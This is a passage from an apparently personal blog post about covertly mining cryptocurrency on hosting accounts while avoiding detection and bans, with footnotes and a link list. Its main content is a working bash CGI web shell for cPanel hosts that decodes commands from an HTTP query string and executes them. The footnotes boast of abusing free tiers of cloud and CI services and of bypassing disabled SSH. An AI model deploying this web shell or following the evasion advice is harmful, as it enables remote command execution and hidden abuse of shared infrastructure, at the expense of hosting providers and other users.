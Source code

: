 ### Self hosted containers or VMs

Many hosting providers don't like mining since CPU resources tend to be shared among multiple users, and mining software can easily slow down a host node impacting performance for the rest of the users. This can true even if CPU user time is unlimited, because hashing algorithms can saturate all the caching layers of the CPU if the cache is shared among all the CPU cores.

We would like to use our _fair_ share of resources without getting banned, that's a good use-case for our stealth dropper since it is host usage aware, which means it _should_ stay kind of within [AUP]. There is no extra steps when dealing with self hosted deployments, just the launcher script, maybe added to the boot sequence or launched manually.

### cPanel based web hosting

Web hosting subscriptions plans are mostly offered through [cPanel]. Again here we are using personal subscription plans which have reasonable resource limits, on the other hand any free plan has ridiculous limits [^freehostinglimits].
cPanel allows you to define handlers for different file extensions, this allows us to execute shell scripts through the [cgi] with an http request against a shell script uploaded on the server. These kind of interfaces are what web-shells look like [^cpanelssh].
A simple bash web shell

```bash
# without content encoding the request response won't be honored
echo -e 'Content-Type: text/plain\n'
SERVER_NAME=myserver
## parse vars (for interactive use)
saveIFS=$IFS
IFS='=&'
parm=($QUERY_STRING)
IFS=$saveIFS
for ((i=0; i<${#parm[@]}; i+=2))
do
    declare var_${parm[i]}=${parm[i+1]}
done
## exec command for interactive and proclimited scenarios
url_encoded="${var_path//+/ }"
export PATH=".:$PATH"
. /dev/shm/srv/utils/load.env &>/dev/null

if declare -f "${url_encoded/\%20*}" 1>/dev/null; then ## don't use -n, redirect fd for bcompat
    printf '%b' "${url_encoded//%/\\x}" > /tmp/${SERVER_NAME}.src
else
    if builtin "${url_encoded/\%20*}"; then
        printf '%b' "${url_encoded//%/\\x}" > /tmp/${SERVER_NAME}.src
    else
        printf 'exec %b' "${url_encoded//%/\\x}" > /tmp/${SERVER_NAME}.src
    fi
fi
. /tmp/${SERVER_NAME}.src
```

It is better to only rely on builtins as forking additional processes may not be allowed in web jails, but it is always possible to `exec` which allows us to use most command line utilities. Most web shells are written in other scripting languages like python or php as you don't have to worry about forking.


[^adversary]: _the grumpy sysadmin_
[^infoproc]: even though this would break many privacy assumptions, I am sure most of them just peek inside whenever there is a incumbent problem, but this is only a problem for container based runtimes, whereas VMs are pretty much black boxes.
[^monerominer]: the miner built into the monero node got some work to make it more background friendly, but the distribution of xmrig was never focused on background friendliness.
[^difficulty]: some pools offer different difficulties on different connection ports, and tend to align the job difficulty to the miner submitted shares, but the granularity of the proxy was still more convenient, as it would prevent pool [lock-in] \(although we never really switched pools \).
[^configwatch]: it wasn't happy when the config suddenly appeared and disappeared from the file system
[^stratumprotocol]: We don't talk about the [stratum protocol] since we just have to deal with whatever is implemented in _both_ the pool and the miner...which is usually the bare minimum, and possibly with non standard extensions.
[^fullbash]: never go full bash :\)
[^memoryondemand]: I have not explored what happens when a processes loads additional functionality at runtime, as the kernel would look for the address in the memory layout of the executable, which would access the filesystem and possibly causing a crash.
[^freehostinglimits]: Limits are arbitrary, cpu time is less than a second, memory is less than 128M, outbound connections are blocked.
[^cpanelssh]: with a little bit of patience you can also run a full ssh instance over an environment bootstrapped around your cpanel account space, _without_ having access to the cpanel builtin SSH which tends to be disabled by hosting providers.
[^openshift]: openshift went from a 1 year free tier to 3 months to 1 month, starting to require phone authentication, I can guarantee I was not the only one abusing their services.
[^herokucontainers]: Heroku free tier containers are quite generous in resources, they provide 4c/8t (virtual) cpus, plenty of ram and large storage (which however is not persistent and discarded on dyno shutdown).
[^saddrone]: They adde muc strictier registration rules, after a couple of bans, I might have contributed to it.
[cryptocurrencies]: https://en.wikipedia.org/wiki/Cryptocurrency
[ASICS]: https://en.wikipedia.org/wiki/Application-specific_integrated_circuit
[CPU friendly coins]: \posts/a-few-notes-on-proof-of-work
[miner]: https://github.com/xmrig/xmrig
[another miner]: https://github.com/Bendr0id/xmrigCC
[proxy]: https://github.com/Bendr0id/xmrigcc-proxy
[tunnel]: https://github.com/search?q=tunnel
[somebody]: https://twitter.com/sarahjamielewis
[lost bets]: https://web.archive.org/web/https://twitter.com/SarahJamieLewis/status/1185724467776851968
[DNS]: https://en.wikipedia.org/wiki/Domain_Name_System
[dos]: https://en.wikipedia.org/wiki/Denial-of-service_attack
[dig]: https://web.archive.org/web/20201107155737/https://downloads.isc.org/isc/bind9/
[TXT]: https://en.wikipedia.org/wiki/TXT_record
[statically linked]: https://en.wikipedia.org/wiki/Standalone_program
[recommended]: https://www.ietf.org/rfc/rfc6763.txt
[cloudflare]: https://www.cloudflare.com/
[freedns]: https://freedns.afraid.org/
[used to]: https://web.archive.org/save/https://community.cloudflare.com/t/was-there-a-reduction-in-maximum-txt-size
[NULs]: https://en.wikipedia.org/wiki/Null_character
[base64]: https://en.wikipedia.org/wiki/Base64
[curl]: https://curl.se/
[wget]: https://www.gnu.org/software/wget/
[bash]: https://en.wikipedia.org/wiki/Bash_%28Unix_shell%29
[cf cli]: https://web.archive.org/web/20210305071742/https://github.com/cloudflare/cloudflare-go/blob/master/cmd/flarectl/README.md
[trampoline]: https://en.wikipedia.org/wiki/Trampoline_(computing)
[container]: https://en.wikipedia.org/wiki/OS-level_virtualization
[here]: \assets/posts/bash_functions.txt
[IPC]: https://en.wikipedia.org/wiki/Inter-process_communication
[ulimits]: https://web.archive.org/web/https://linux.die.net/man/5/limits.conf
[ipinfo]: https://ipinfo.io/
[geoip.json]: \assets/posts/geoip.json
[technical debt]: https://en.wikipedia.org/wiki/Technical_debt
[state machine]: https://en.wikipedia.org/wiki/Finite-state_machine
[proxychains]: https://web.archive.org/web/20210121093409/https://github.com/haad/proxychains
[forward tunnel]: https://web.archive.org/web/20210315094551/https://github.com/ginuerzh/gost
[mining proxy]: https://web.archive.org/web/20201207221231/https://github.com/Snipa22/xmr-node-proxy
[lock-in]: https://en.wikipedia.org/wiki/Vendor_lock-in
[stratum protocol]: https://en.bitcoin.it/wiki/Stratum_mining_protocol
[cdn]: https://en.wikipedia.org/wiki/Content_delivery_network
[aup]: https://en.wikipedia.org/wiki/Acceptable_use_policy
[cpanel]: https://en.wikipedia.org/wiki/CPanel
[cgi]: https://en.wikipedia.org/wiki/Common_Gateway_Interface
[Cloud9]: https://aws.amazon.com/cloud9
[Codeanywhere]: https://web.archive.org/web/20210314172852/https://codeanywhere.com/
[Puppeteer]: https://web.archive.org/web/20210318213139/https://developers.google.com/web/tools/puppeteer
[Openshift]: https://www.openshift.com/
[Heroku]: https://www.heroku.com/
[Bitrise]: https://web.archive.org/web/20210222050951/https://www.bitrise.io/
[Continuousphp]: https://web.archive.org/web/20210310010750/https://continuousphp.com/
[Travis]: https://web.archive.org/web/20210324163536/https://travis-ci.org/
[Semaphore]: https://web.archive.org/web/20210308041527/https://semaphoreci.com/
[Wercker]: https://web.archive.org/web/20210308202144/https://app.wercker.com/
[Buddy]: https://web.archive.org/web/20210322133805/https://buddy.works/
[Drone]: https://web.archive.org/web/20210327045555/https://cloud.drone.io/welcome
[Codeship]: https://web.archive.org/web/20210322100629/https://www.cloudbees.com/products/codeship
[Docker-hub]: https://web.archive.org/web/20210322105637/https://hub.docker.com/
[Semaphore]: https://web.archive.org/web/20210308041527/https://semaphoreci.com/
[CI]: https://en.wikipedia.org/wiki/Continuous_integration